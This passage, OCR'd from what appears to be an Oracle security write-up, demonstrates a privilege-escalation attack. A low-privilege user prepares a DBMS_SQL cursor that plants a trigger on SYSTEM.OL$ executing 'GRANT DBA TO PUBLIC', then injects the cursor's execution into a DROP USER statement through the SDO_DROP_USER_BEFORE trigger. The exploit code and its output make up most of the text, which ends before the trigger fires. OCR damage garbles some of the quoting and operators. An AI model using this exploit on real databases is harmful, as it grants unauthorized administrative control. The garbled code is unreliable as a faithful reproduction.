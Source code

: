 Once logged in CSESS then creates a cursor and primes it with a query
that will create the trigger on the SYSTEM.OL$ table - we also use
DBMS_OUTPUT to show us that our SQL is executing as expected:

`SQL> DECLARE `
`  2  MY_CURSOR NUMBER; `
`  3  RESULT NUMBER; `
`  4  BEGIN `
`  5  MY_CURSOR := DBMS_SQL.OPEN_CURSOR; `
`  6  DBMS_SQL.PARSE(MY_CURSOR,'declare pragma autonomous_transaction; `
`begin DBMS_OUTPUT.PUT_LINE(`*`EXECUTING``   ``FROM``
 ``SDO_DROP_USER_BEFORE!!!`*`); `
`execute immediate ''create or replace trigger system.WHOPPEE before `
`insert on system.OL$ DECLARE msg VARCHAR2(30); BEGIN null; `
`dbms_output.put_line(`**`'In``   ``the``
 ``trigger`**`'); EXECUTE IMMEDIATE `
`''''DECLARE PRAGMA AUTONOMOUS_TRANSACTION; BEGIN EXECUTE IMMEDIATE `
`'`****`GRANT``   ``DBA``   ``TO``   ``PUBLIC`****`'; END; '`*`';``
 ``end``   ``WHOPPEE;`*`; commit; `
`end;',0); `
`  7  DBMS_OUTPUT.PUT_LINE('Cursor value is :' `

| | MY_CURSOR);

`  8  END; `
`  9  / `
`Cursor value is :3 `
` `
`PL/SQL procedure successfully completed. `

With this done we can see the value of the cursor is 3. We'll pass this
as the argument to DBMS_SQL.EXECUTE when we inject it into the DROP
USER statement:

`SQL> DROP USER "'`

| |CHR(DBMS_SQL.EXECUTE(3)) | |'";

`EXECUTING FROM SDO_DROP_USER_BEFORE!!! `
`DROP USER "'`

| |CHR(DBMS_SQL.EXECUTE(3)) | |'"

`          * `
`ERROR at line 1: `
`ORA-01918: user ''`

| |CHR(DBMS_SQL.EXECUTE(3)) | |'' does not exist

Note we see our SQL is executing as expected - we can tell from the
"EXECUTING FROM SDO_DROP_USER_BEFORE\!\!\!" message we output using
DBMS_OUTPUT.PUT_LINE. By now the WHOPPEE trigger should have been
created on the SYSTEM.OL$ table. Let's now do the INSERT to fire the
trigger:

